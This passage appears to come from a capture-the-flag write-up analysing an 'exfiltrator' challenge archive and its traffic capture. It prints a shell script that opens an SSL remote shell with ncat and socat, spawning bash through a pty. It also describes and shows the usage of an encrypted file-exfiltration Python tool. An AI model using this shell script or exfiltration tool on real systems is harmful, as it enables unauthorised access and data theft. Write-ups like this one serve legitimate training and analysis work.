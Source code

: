 <center><img src = "/assets/images/adversaryquest/exfiltrator.png"></center>

The provided TAR archive provides two different scripts and a pcap file with all of the exfiltration traffic. The first script was a bash script to perform either a connection to an IP/port using socat or listen with ncat--both of which using SSL communications.

```
#!/bin/sh

listen() {
    exec ncat -lvk4 $1 $2 --ssl -c 'python3 -c "import pty;pty.spawn(\"/bin/bash\")"'
}

connect() {
    exec socat -,raw,echo=0 SSL:$1:$2,verify=0
    #exec socat - SSL:$1:$2,verify=0
}

if [ $# -eq 3 ] && [ $1 = "listen" ] ; then
    listen $2 $3
fi

if [ $# -eq 3 ] && [ $1 = "connect" ] ; then
    connect $2 $3
fi
```

The second script was a python script that uses `Chacha20-Poly1305` encryption to send exfil'd data to an indicated IP and port. (I'll refrain from posting the full script here since it is somewhat large, but I will be referencing portions of code.) Running this, it expects several args:

```
python3 exfil.py 
usage: exfil.py [-h] [-k KEY] host port file [file ...]
exfil.py: error: the following arguments are required: host, port, file
```

